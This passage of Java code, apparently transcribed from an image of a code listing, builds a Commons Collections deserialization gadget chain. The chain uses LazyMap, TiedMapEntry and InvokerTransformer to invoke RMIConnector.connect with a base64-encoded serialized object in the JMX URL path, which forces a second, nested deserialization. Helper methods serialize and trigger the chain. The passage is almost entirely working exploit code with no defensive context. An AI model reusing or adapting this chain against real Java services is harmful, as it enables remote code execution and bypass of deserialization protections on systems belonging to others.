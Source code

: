 ```bash
    }

    public static void unserialize(byte[] ser) throws Exception {
        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(ser));
        objectInputStream.readObject();
        System.out.println("Unserialize Ok!");
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static String serialize2Base64(Object object) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(object);
        String s = Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
        return s;
    }
    public static byte[] serialize(Object object) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(object);
        System.out.println("Serialize Ok!");
        String s = Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
        System.out.println(s);
        System.out.println(s.length());
        return byteArrayOutputStream.toByteArray();
    }
    public static void run(String base64) throws Exception{
        JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
        setFieldValue(jmxServiceURL, "urlPath", "/stub/"+base64);
        RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);
        InvokerTransformer connect = new InvokerTransformer("connect", null, null);
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map lazyMap = LazyMap.decorate(hashMap, new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,rmiConnector);
        HashMap<Object, Object> hashMap1 = new HashMap<>();
        hashMap1.put(tiedMapEntry, "2");
        lazyMap.remove(rmiConnector);
        setFieldValue(lazyMap,"factory",connect);
        byte[] serialize = serialize(hashMap1);
        unserialize(serialize);
    }

}
```
